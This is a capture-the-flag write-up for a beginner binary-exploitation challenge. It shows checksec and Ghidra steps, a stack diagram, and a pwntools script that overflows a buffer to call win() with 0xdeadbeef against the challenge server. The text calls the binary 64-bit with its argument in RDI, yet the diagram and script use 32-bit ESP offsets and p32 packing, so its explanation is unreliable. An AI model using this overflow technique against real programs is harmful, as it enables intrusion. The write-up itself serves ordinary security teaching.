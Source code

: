 ## Intro to PWN 4

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  NX is enabled but PIE is not.  Once again we can put static addresses into our exploit.  We don't have source code this time.  View the decompilation in ghidra.

![ghidra_main](./screenshots/ghidra_main.png)
![ghidra_vuln](./screenshots/ghidra_vuln.png)
![ghidra_win](./screenshots/ghidra_win.png)

Same concept as Intro to PWN 3 except we are dealing with x64.  Argument 1 is passed in through register RDI.  Lets take a look at the assembly and see how we can write to RDI.

![ghidra_vuln_asm](./screenshots/ghidra_vuln_asm.png)

It looks like the bottom of the stack buffer is moved into RDI.  This is how we can pass in our first argument to the win function.

This time we need to skip 36 bytes and append the address of win() in little endian.  Then we need to place 0xdeadbeef into the first argument.  This will be the next address on the stack.  However, when the win function is called, a new return address will be place on the stack and the stack pointer will move down 4 bytes.  Here is a visual representation of the stack after the buffer is placed and when win() is called.

```
________________buffer overflow_________________        ________________win() function________________
          |------------|                                          |------------|
$esp + 44 | 0xdeadbeef | Argument 1                     $esp + 12 | 0xdeadbeef | Argument 1
$esp + 40 | 0x42424242 | skip 4 bytes                   $esp + 8  |  ret addr  | next address in main
$esp + 36 |    win()   | address of win function        $esp + 4  |    ebp     | frame pointer
$esp + 32 | 0x41414141 | buffer (ebp)                   $esp      |   unused   | first stack variable
               ...                                                |------------|
$esp      | 0x41414141 | buffer
          |------------|
```

Use objdump to get the address of win().

![jump_address](./screenshots/jump_address.png)

Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 28949)

payload =  b""
payload += b"A" * 36
payload += p32(binary.sym.win)
payload += b"B" * 4
payload += p32(0xdeadbeef)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!